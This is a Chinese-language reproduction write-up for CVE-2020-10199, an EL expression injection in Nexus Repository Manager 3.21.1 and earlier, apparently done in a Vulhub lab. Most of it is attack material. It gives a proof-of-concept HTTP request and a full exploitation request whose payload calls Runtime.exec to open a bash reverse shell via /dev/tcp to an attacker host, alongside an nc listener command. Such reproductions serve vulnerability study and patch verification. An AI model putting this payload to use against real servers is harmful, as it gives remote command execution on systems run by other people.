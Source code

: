 # CVE-2020-10199

> **Created by：** A-little-dragon
> **Team：** TracelessSec
> **漏洞描述：**Nexus Repository Manager 3 任意EL表达式注入漏洞。



# 0x01 漏洞描述

Nexus Repository Manager 3 是一款软件仓库，可以用来存储和分发Maven、NuGET等软件源仓库。其3.21.1及之前版本中，存在一处任意EL表达式注入漏洞。

# 0x02 影响版本

`3.21.1及之前版本`

# 0x03 环境搭建

Vulhub执行如下命令启动Nexus Repository Manager 3.21.1：

```cpp
docker-compose up -d
```

成功启动后，访问http://your-ip:8081即可看到Web页面。

该漏洞需要至少普通用户身份，所以我们需要使用账号密码admin/admin登录后台。

![Untitled](image/Untitled.png)

# 0x04 漏洞复现

## POC验证

登录后，复制当前Cookie和CSRF Token，发送如下数据包，即可执行EL表达式：

```
POST /service/rest/beta/repositories/go/group HTTP/1.1
Host: your-vps-ip:8081
X-Requested-With: XMLHttpRequest
X-Nexus-UI: true
NX-ANTI-CSRF-TOKEN: 0.9514072635504696
Content-Type: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Origin: http://your-vps-ip:8081
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Referer: http://your-vps-ip:8081
Cookie: NX-ANTI-CSRF-TOKEN=0.9514072635504696; NXSESSIONID=d7f44169-393b-446a-815d-0eff3acf5a71
Connection: close
Content-Length: 203

{
  "name": "internal",
  "online": true,
  "storage": {
    "blobStoreName": "default",
    "strictContentTypeValidation": true
  },
  "group": {
    "memberNames": ["$\\A{233*233*233}"]
  }
}
```

![Untitled](image/Untitled%201.png)

## 漏洞利用

**攻击机开启监听**

```
nc -lvvp {port}
```

**发送数据包**

```
POST /service/rest/beta/repositories/go/group HTTP/1.1
Host: 192.168.100.141:8081
Pragma: no-cache
Cache-Control: no-cache
X-Requested-With: XMLHttpRequest
X-Nexus-UI: true
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
NX-ANTI-CSRF-TOKEN: 0.5406533101387068
Accept: */*
Referer: http://192.168.100.141:8081/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: NX-ANTI-CSRF-TOKEN=0.5406533101387068; _ga=GA1.1.1374831769.1719492805; NXSESSIONID=ec9ee768-c078-45e1-aa20-cfb2bf0b5264; _ga_K2SPJK2C73=GS1.1.1719492805.1.1.1719492854.11.0.0; _ga_T11SF3WXX2=GS1.1.1719492805.1.1.1719492854.11.0.0; _ga_0C4M1PWYZ7=GS1.1.1719492805.1.1.1719492904.0.0.0
Connection: close
Content-Type: application/json
Content-Length: 350

{
 
    "name": "internal",
    "online": true,
    "storage": {
        "blobStoreName": "default",
        "strictContentTypeValidation": true
    },
    "group": {
    "memberNames": ["$\\A{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('/bin/bash -c bash$IFS$9-i>&/dev/tcp/{ip}/{port}<&1')}"]
}
}
```

![Untitled](image/Untitled%202.png)

**拿到shell**

![Untitled](image/Untitled%203.png)